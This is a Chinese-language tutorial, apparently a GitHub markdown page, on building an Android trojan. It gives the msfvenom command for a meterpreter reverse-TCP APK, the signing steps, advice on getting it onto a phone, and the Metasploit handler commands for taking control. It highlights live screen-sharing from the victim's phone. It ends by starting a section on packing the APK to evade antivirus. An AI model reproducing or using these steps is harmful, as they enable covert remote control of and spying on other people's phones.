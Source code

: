 ### 病毒制作

#### 生成 apk 病毒文件包

首先使用 `ifconfig` 获取当前虚拟机的 ip 地址，用于接收传回来的监听信息  
假设目前获取的 ip 为 192.168.100.100

打开终端，输入如下代码创建病毒 apk  
`msfvenom -p android/meterpreter/reverse_tcp lhost=192.168.100.100 lport=10086 R > /root/base.apk`

1. -p 设置类似于过滤器的玩意，这里必然使用 android 过滤器
2. lhost 设置监听信息送回地址
3. lport 设置监听信息送回端口
4. /root/base.apk 设置文件名以及文件保存位置

<br>

#### 为 apk 签名

依然在原来的终端输入代码进行签名：`keytool -genkey -V -keystore apk-trojan-key.keystore -alias apk -keyalg RSA -keysize 1024 -validity 999`

接下来会输入一系列参数，你看着办就好

<br>

#### 分发病毒

很简单，可以使用 xshell 的 `sftp` 方法，先下载病毒 apk，然后安装到手机就好了（一般市面上的手机都有很强的拦截能力，导致无法轻易安装病毒，那么可以改为使用模拟器）

<br>

#### msfconsole 监听

终端输入 `msfconsole` 进入 metasploit 专属的监听控制台

依次输入如下代码：
`use exploit/multi/handler` 加载监听模块  
`set payload android/meterpreter/reverse_tcp` 设置 payload  
`set lhost 192.168.100.100` 设置监听 ip  
`set lport 10086` 设置监听端口

<br>

进入监听模式，输入 `exploit`

此时，如果手机运行了病毒程序，那么该控制台就会出现对应的检测提示，此时我们可以输入 help，来查看可以对目标手机执行的操作；

比较好玩的代码是 `screenshare` 可以实时分享目标手机屏幕！

<br>

### 加壳免杀

> 根据以上部分制作的病毒依旧太脆弱，无论是手机三番五次的好心提醒与强制拦截，还是运行 app 时请求的大量权限，都完全违背了病毒的隐秘特征，则现在需要改善这一点，使其变得“人畜无害”
